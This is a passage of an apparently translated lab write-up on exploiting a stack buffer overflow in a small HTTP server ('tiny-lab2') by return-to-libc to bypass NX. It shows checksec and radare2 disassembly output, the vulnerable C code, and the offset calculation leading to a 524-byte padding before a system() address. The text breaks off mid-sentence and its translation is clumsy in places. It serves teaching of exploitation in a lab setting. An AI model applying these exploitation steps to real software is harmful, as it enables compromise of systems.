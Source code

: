 # Writeup - Return-to-libc - NX Bypass - lab2

This technique is useful as NX Bypass as shown below
`` `
root @ 6c712780745b: / opt # execnoaslr gdb tiny-lab2
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
...
gdb-peda $ checksec
CANARY: disabled
FORTIFY: disabled
NX: ENABLED
PIE: disabled
RELRO: Partial
`` `


## OFFSET identification
Identifying the offset of the variable in the overflowing frame was by carrying out rooting by disassembling the function identified as vulnerable by AddressSanitizer, in addition by looking disassembled it was possible to identify which was the vulnerable buffer which as seen the overflow phase is in url_decode that works on pointers of variables instantiated in process therefore overflow will be relative to the execution frame of process:
`` `
# root @ 06c96654b96d: / opt # execnoaslr radare2 tiny-lab2
[0x08048aa0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Type matching analysis for all functions (aaft)
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x08048aa0]> pdf @ sym.process
/ (fcn) sym.process 565
| sym.process (int arg_8h, void * arg_ch);
| ; var int var_28ch @ ebp-0x28c
| ; var int var_288h @ ebp-0x288
| ; var int var_284h @ ebp-0x284
| ; var int var_280h @ ebp-0x280
| ; var int var_27ch @ ebp-0x27c
| ; var int var_278h @ ebp-0x278
| ; var int var_274h @ ebp-0x274
| ; var char * var_270h @ ebp-0x270
| ; var char * var_26ch @ ebp-0x26c
| ; var signed int fildes @ ebp-0x268
| ; var int var_264h @ ebp-0x264
| ; var int var_260h @ ebp-0x260
| ; var int var_250h @ ebp-0x250
| ; var signed int var_234h @ ebp-0x234
| ; var char * path @ ebp-0x208 <- This is an overflow buffer identified because in the code it is used in the open ()
and for this reason it is renamed symbolically to be rooted in path
| ; var signed int var_8h_2 @ ebp-0x8
| ; var uint32_t var_4h_2 @ ebp-0x4
| ; arg int arg_8h @ ebp + 0x8
| ; arg void * arg_ch @ ebp + 0xc
| ; var void * oflag @ esp + 0x4
| ; var char * var_8h @ esp + 0x8
| ; var int var_ch @ esp + 0xc
| ; CALL XREFS from main (0x804a1df, 0x804a287)
| 0x08049d90 55 push ebp
| 0x08049d91 89e5 mov ebp, esp
`` `
From this disassembled and from the source code it has been identified that it is the `strut http_request` with the field` filename`
which is passed to open by the following code:
`File: tiny.c`
`` `
void process (int fd, struct sockaddr_in * clientaddr) {
    printf ("accept request, fd is% d, pid is% d \ n", fd, getpid ());
    http_request req;
    parse_request (fd, & req);

    struct stat sbuf;
    int status = 200, ffd = open (req.filename, O_RDONLY, 0);
    if (ffd <= 0) {
        status = 404;
        char * msg = "File not found";

[...]
`` `
Of which the relative disassembled recognizable by the `call sym.imp.open; int open (const char * path, int oflag) `
`` `
[0x08048aa0]> pdf @ sym.process
[...]
           0x08049df8 c7859cfdffff. mov dword [var_264h], 0xc8; 200
| 0x08049e02 890c24 mov dword [esp], ecx; const char * path
| 0x08049e05 c74424040000. mov dword [oflag], 0; int oflag
| 0x08049e0d c74424080000. mov dword [var_8h], 0
| 0x08049e15 89857cfdffff mov dword [var_284h], eax
| 0x08049e1b e8f0eaffff call sym.imp.open; int open (const char * path, int oflag)
| 0x08049e20 898598fdffff mov dword [fildes], eax
| 0x08049e26 83bd98fdffff. cmp dword [fildes], 0

[...]
`` `
And here in the first screen of `shave` we have that the buffer overflow is distant from the` Base Pointer: EBP` the following value: `; var char * path @ ebp-0x208` where `0x208 bytes` are based on 10` 520 bytes` and therefore on this value by adding `4 bytes` (as` 32bit`) relative to the exact value of the `EBP` as shown in the 'image:
! [Stack image] (https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/100912_1629_ReturnOrien2.png)


Consequently, the exploit injecting `" A "* 524` will include all the offset from the` Base Pointer EBP` including its `4 bytes of value` therefore, any byte written in more will overwrite the` Return Address EIP` and it will be precisely in those 4 bytes that the address calculated as a jump on function extracted from `LIBC` will be injected, in this case the` system () `function.

## Construction Idea
You can imagine the system execution as a new execution frame that contains the `RET address` as the first value to return to, which in our case will be the` 4 bytes` set to `" B "* 4` and then the parameters to be passed to
